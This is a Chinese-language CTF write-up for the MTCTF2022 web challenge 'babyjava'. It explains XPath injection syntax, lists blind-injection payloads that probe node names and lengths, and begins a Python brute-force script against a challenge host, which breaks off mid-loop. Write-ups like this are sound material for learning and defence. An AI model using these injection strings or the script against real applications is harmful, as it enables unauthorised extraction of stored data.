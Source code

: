 # MTCTF2022


## WEB

### babyjava
xpath注入  

参考：
[XPATH注入学习 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7791)  

类似于sql注入，通过注入获取节点信息

#### 语法

- “nodename” – 选取nodename的所有子节点
- “/nodename” – 从根节点中选择
- “//nodename” – 从当前节点选择
- “..” – 选择当前节点的父节点
- “child::node()” – 选择当前节点的所有子节点
- "@" -选择属性
- "//user[position()=2] " 选择节点位置
#### 盲注
```bash
' or count(/)=1 and ''='  # 根节点数量
' or count(/*)=1 and ''='  # 根节点下子节点个数
' or string-length(name(/*[1]))=4 and ''='  # 根节点下节点长度
' or substring(name(/*[1]),2,1)='a' and ''='  # 根节点下节点名称，第二个字符是否为a
' or count(/root)=1 and ''='  # root节点下节点个数
' or string-length(name(/root/*[1]))=4 and ''='  # root第一个子节点长度
' or substring(name(//user[position=1]/username[position=2]),2,1)='l' and ''=' 
# 第一个user下第二个username值，第二个字符是否为l
```
#### 节点信息
root  

​	1 len:4 user  

​		2 len:8 username  

​		len:8 username

#### payload
```python
import requests

url = 'http://eci-2zeck6h5lu4hlf0o62vg.cloudeci1.ichunqiu.com:8888/hello'
head = {
	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36",
	"Content-Type": "application/x-www-form-urlencoded"
}
strs = '}_{-abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

flag = ''

for i in range(1, 100):
    for j in strs:
        payload_1 = { # root 
            "xpath":"' or substring(name(/*[1]), {}, 1)={} and ''='".format(i,j)
        }

        payload_2 = { # user
            "xpath":"'or substring(name(/root/*[1]), {}, 1)={} and ''='".format(i,j)
```